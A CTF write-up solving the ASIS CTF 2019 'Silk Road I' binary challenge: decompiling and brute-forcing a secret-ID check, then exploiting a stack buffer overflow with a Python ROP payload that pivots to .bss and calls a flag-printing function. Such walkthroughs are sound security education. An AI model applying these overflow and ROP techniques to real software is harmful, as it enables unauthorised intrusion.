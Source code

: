 
# Silk Road I

This is a fairly low-point pwnable challenge for ASIS CTF 2019, a rather difficult CTF sponsored by Sharif University and, I think, the Iranian Nuclear Energy Commission. The problem was quite interesting, and I enjoyed solving it. I did not have time during the CTF to start this write-up, so I am playing catch-up several months later.

### Reconnaissance

Here are the results of `file` and `checksec`:

```
silkroad.elf: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, BuildID[sha1]=7f500758d8c87a97befe1bf9e71a1cc3a834de25, stripped
```

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   silkroad.elf
```

Here is some interesting information from `strings`:

```
/lib64/ld-linux-x86-64.so.2
libc.so.6
strcpy
srand
strncmp
__isoc99_scanf
puts
time
putchar
stdin
printf
strtol
fgets
strlen
read
stdout
malloc
strcat
open
setvbuf
__libc_start_main
free
__fxstat
GLIBC_2.7
GLIBC_2.2.5
__gmon_start__
...
Silkroad admin token not found!
DreadPirateRoberts
FBI detected Silkroad, enter the commadns to delete evidince and run Silkroad!
Not Silkroad admin!
        Welcome to Silk Road!
                     ,,__
           ..  ..   / o._)                   .---.
          /--`/--\  \-`||        .----.    .`     `.
         /        \_/ / |      .`      `..`         `-.
       .`\  \__\  __.`.`     .`          i-._
         )\ |  )\ |      _.`
        // \\ // \\
       ||_  \\|_  \\_
       `--` `--`` `--`
Hello, guest!
Enter your secret ID:
The secret ID is not correct!
Enter your nick:
```

So that seems to indicate some interesting characteristics of the program. I'm writing this time with the benefit of hindsight of course, but just looking at this information I would probably have figured out that there might be a buffer overflow vulnerability (presence of `fgets` and no stack canary); that I might need to figure out some secret ID or nickname, and that `DreadPirateRoberts` is probably a useful string. There's no call to `system` or `/bin/sh` sitting in the code, but there's also no PIE, so maybe I can use `printf` to leak a GOT address. That's already a lot of information. Let's look at the code.

Well, first of all, after the user gets greeted, there's a function that I'll call `check_secret_id` that gets called, and the user is allowed to enter a string with only nine characters that's passed in as a parameter to `check_secret_id`. There's no buffer overflow vulnerability with reading in those nine characters. The actual `check_secret_id` function is kind of involved, so let's look at it with Ghidra. Along the way I just want to point out that, analyzing this binary with Ghidra, I noticed a function that I'll call `print_flag`, which is in the code but doesn't get called directly. It takes in a pointer to an array of pointers to strings, and prints out each of the strings:

```
void print_flag(long lParm1)

{
  int local_c;

  local_c = 0;
  while (**(char **)(lParm1 + (long)local_c * 8) != 0) {
    printf("\t%s\n",*(undefined8 *)(lParm1 + (long)local_c * 8));
    local_c = local_c + 1;
  }
  return;
}
```

So that looks useful, maybe I would have a reason for jumping to that later.

Back to `check_secret_id`, here's the decompiled C code in Ghidra, and I've replaced some strings to aid readability:

```
undefined8 test_secret_number(char *pcParm1)

{
  int iVar1;
  int iVar2;
  int n;
  long lVar3;
  size_t integer_length;
  size_t sVar4;
  size_t sVar5;
  size_t sVar6;
  int dcba;
  int ihgf;

  lVar3 = strtol(pcParm1,(char **)0x0,10);
  n = (int)lVar3;
  integer_length = strlen(pcParm1);
  if ((SUB168((ZEXT816(0) << 0x40 | ZEXT816((ulong)(long)n)) % ZEXT816(integer_length + 2),0) == 0)
     && (pcParm1[4] == '1')) {
    ihgf = n / 100000;
    dcba = n % 10000;
    if ((((dcba % 100) / 10 + (dcba / 1000) * 10) - ((ihgf / 1000) * 10 + ihgf % 10) == 1) &&
       (((ihgf / 100) % 10) * 10 + (ihgf / 10) % 10 +
        ((dcba % 1000) / 100 + ((dcba % 100) / 10) * 10) * -2 == 8)) {
      iVar1 = (ihgf % 10) * 10 + (ihgf / 100) % 10;
      iVar2 = ((dcba / 100) % 10) * 10 + dcba % 10;
      if ((iVar1 / iVar2 == 3) && (iVar1 % iVar2 == 0)) {
        sVar4 = strlen(pcParm1);
        sVar5 = strlen(pcParm1);
        sVar6 = strlen(pcParm1);
        if ((long)(n % (ihgf * dcba)) == (sVar6 + 2) * (sVar4 + 2) * (sVar5 + 2) + 6) {
          return 1;
        }
      }
    }
  }
  return 0;
}
```

That's a lot easier to understand than the assembly language. The assignment of `sVar4`, `sVar5`, and `sVar6` looks a little fishy, but the pseudocode checks out with the assembly language. In any case, the nine-digit string gets converted to a long, then the long is subjected to a set of constraints and if all of them are satisfied, `1` gets returned to the caller function (which of course is the desired outcome).

At first I thought that a nine-digit number would constitute too many possibilities to find the desired number via brute force. I considered working with a constraint solver, but then I just wrote a program to count from zero to `10^10` and found that it did not take as long as I expected. So I just used a brute force approach to calculate the desired key. [Here's](./get_secret_number.py) the code to get it. After a couple of minutes, the code returns `790317143`.

Next, the program asks the user for their "nickname" and checks if it's `DreadPirateRoberts!` followed by `0x7a69`. That's simple enough. If the nickname is correct, a vulnerable function gets called:

![./vulnerable_function.png](./vulnerable_function.png)

Here, `0x80` bytes get read into a buffer of size `0x40`. (Of course, I'd seen that during the initial reconnaissance before going to the trouble of determining the nine-digit secret key.) The rest is a ROP, and I've got essentially 64 bytes to work with. I found it useful to read information to the `.bss` section, then pivot there to continue the ROP chain so that it could be an arbitrary length.

Here's the first payload:
```
# Fill the initial buffer (64 bytes long)
payload = ""
for i in range(8):
	payload += chr(0x41+i)*8
payload += p64(NEW_RBP)
payload += p64(0x4017ce) # Puts 0x1ed60 in rdx for example
payload += p64(POP_RSI)
payload += p64(BSS_ROOT) # where I'm reading into
payload += p64(0x0)
payload += p64(POP_RDI)
payload += p64(0x0) # Read from stdin
payload += p64(CALL_READ_ADDR)
payload += p64(RET_ADDR)
payload += "\n"
p.send(payload)
```

One challenge was that in order to write a large payload to the `.bss` section, I needed a large integer in register `rdx` at the time that I jumped to the call to `_read` (as `rdx` stores the maximum number of bytes to read), and there was no gadget to simply pop `rdx`. I found that the function at `0x4017ce`, which checks the nickname entered by the user, will place a heap address in `rdx` as part of freeing a block of memory when the nickname is wrong, and that address remains in `rdx` when the function terminates. That was a satisfying trick to make the call to `_read` work. I was just able to fit that call to `read` into 64 bytes.

Once I pivot to the `.bss` section, my next goal is to call a section of code that will print the flag. The function at `0x4017ce` attempts to read a file located at `./Silkroad/790317143` (where `790317143` is really specified by an input parameter that's a pointer to the secret key entered by the user) and then prints the contents of that file with a `puts` command. So, I need to store the number `790317143` in the `.bss` section as an input string, pop it into `rdi`, then call the function at `0x4017ce` in order to print the flag. (I set up such a file with a fake flag locally for testing purposes.)

I didn't save a screenshot of the flag at the time of the competition, but oh well. [Here's](./exploit-silkroad.py) the exploit code.

### Comparison to other approaches

[Ian Klatzco](https://klatz.co/ctf-blog/asisctf-silkroad) writes a C harness that repeatedly throws inputs at assembly language taken from the `silkroad.elf` binary to check whether an integer is the secret key. His idea is to produce code that runs faster than the native Python, and in the end he's able to get the secret key in less than a minute. [EmpireCTF](https://github.com/EmpireCTF/empirectf/blob/master/writeups/2019-04-20-ASIS-CTF-Quals/README.md#83-pwn--silk-road-i) was able to get a shell with the 64 bytes allowed. They appear to know the `libc` version running on the server, even though that wasn't provided with the problem. I think they may have [fingerprinted](https://libc.blukat.me/) the `libc` version on the server by leaking addresses from the Global Offset Table, but that's not in the write-up. I'm sure my approach was not the intended solution because of the trick needed to leak `rdx`, but it was fun to figure out!
